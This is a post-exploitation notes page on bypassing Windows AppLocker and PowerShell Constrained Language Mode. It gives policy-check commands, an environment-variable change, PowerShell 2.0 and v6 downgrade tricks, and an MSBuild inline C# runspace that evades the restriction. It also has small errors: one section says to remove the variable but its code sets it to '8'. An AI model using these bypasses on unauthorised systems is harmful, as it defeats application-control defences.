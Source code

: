 ```yaml
---
title: Bypass APPLocker
category: Post Exploitation
order: 9
---
```


# AppLocker

AppLocker is a Windows Defender functionallity which helps you control which apps and files users can run. These include executable files, scripts, Windows Installer files, dynamic-link libraries (DLLs), packaged apps, and packaged app installers.

AppLocker can help you:

* Define rules based on file attributes that persist across app updates, such as the publisher name (derived from the digital signature), product name, file name, and file version. You can also create rules based on the file path and hash.
* Assign a rule to a security group or an individual user.
* Create exceptions to rules. For example, you can create a rule that allows all users to run all Windows binaries, except the Registry Editor (regedit.exe).
* Use audit-only mode to deploy the policy and understand its impact before enforcing it.
* Create rules on a staging server, test them, then export them to your production environment and import them into a Group Policy Object.
* Simplify creating and managing AppLocker rules by using Windows PowerShell.

# Check Rules

With the cmdlet `Get-AppLockerPolicy` we can check which rules are enabled on the machine.

```
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
# Constrained Language (Powershell)

When Applocker is configured on a machine we drop into a Constrained Language Mode (CLM) when we connect using PowerShell Remoting. 

PowerShell Constrained Language is a language mode of PowerShell designed to support day-to-day administrative tasks, yet restrict access to sensitive language elements that can be used to invoke arbitrary Windows APIs.

```powershell
$ExecutionContext.SessionState.LanguageMode
```

PowerShell included an environment variable for debugging and unit testing called `__PSLockdownPolicy`. 

## Enable PS Constrained Language Mode

Enabling constrained language mode, that dows not allow powershell execute complex ataccks such as mimikatz.

```powershell
[Environment]::SetEnvironmentVariable('__PSLockdownPolicy', '4’, 'Machine')
```

## Bypass PS Constrained Language Mode

### Via GUI

However, if you have access to the system and enough privileges to change environment variables, you can bypass it by removing the variable `__PSLockdownPolicy` and re-spawning another PowerShell instance.

```
[Environment]::SetEnvironmentVariable('__PSLockdownPolicy', '8', 'Machine')
```

### PowerShell Downgrade

If PowerShell 2.0 is installed we can bypass it via spawning a PowerShell 2.0 instance.

```powershell
powershell -version 2
```
[https://www.ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass](https://www.ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass)


### PowerShell Upgrade (PowerShell v6)

PowerShell v6.0.0 (pwsh.exe) has only Script Block Logging and AMSI, so we can bypass Constrained Language using PSv6.

```powershell
pwsh.exe
```

### Unmanaged PowerShell Runspace

We can create a C# assembly that runs powershell on a `FullLanguage` mode.

```c#
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="MSBuild">
   <MSBuildTest/>
  </Target>
   <UsingTask
    TaskName="MSBuildTest"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
     <Task>
     <Reference Include="System.Management.Automation" />
      <Code Type="Class" Language="cs">
        <![CDATA[

            using System;
            using System.Linq;
            using System.Management.Automation;
            using System.Management.Automation.Runspaces;

            using Microsoft.Build.Framework;
            using Microsoft.Build.Utilities;

            public class MSBuildTest :  Task, ITask
            {
                public override bool Execute()
                {
                    using (var runspace = RunspaceFactory.CreateRunspace())
                    {
                      runspace.Open();

                      using (var posh = PowerShell.Create())
                      {
                        posh.Runspace = runspace;
                        posh.AddScript("$ExecutionContext.SessionState.LanguageMode");
                                                
                        var results = posh.Invoke();
                        var output = string.Join(Environment.NewLine, results.Select(r => r.ToString()).ToArray());
                        
                        Console.WriteLine(output);
                      }
                    }

                return true;
              }
            }

        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```

# References

* [https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/applocker-overview](https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/applocker-overview)
* [https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/)